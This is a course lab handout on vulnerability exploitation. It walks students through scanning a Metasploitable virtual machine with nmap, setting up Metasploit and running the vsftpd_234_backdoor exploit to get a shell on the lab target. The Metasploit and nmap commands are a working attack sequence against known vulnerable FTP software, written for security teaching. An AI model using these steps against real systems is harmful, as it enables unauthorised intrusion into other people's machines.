 # Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	- Make note of what port VSFTPD service is running.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	 - ```show options```

 11. Set the remote host and the remote ports by using the following commands.

	 - ```set RHOSTS <Metasploitable IP Address>

	 - ```set RPORT <VSFTPD port number>

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 14. Run the exploit by using the following command.

	 - ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.
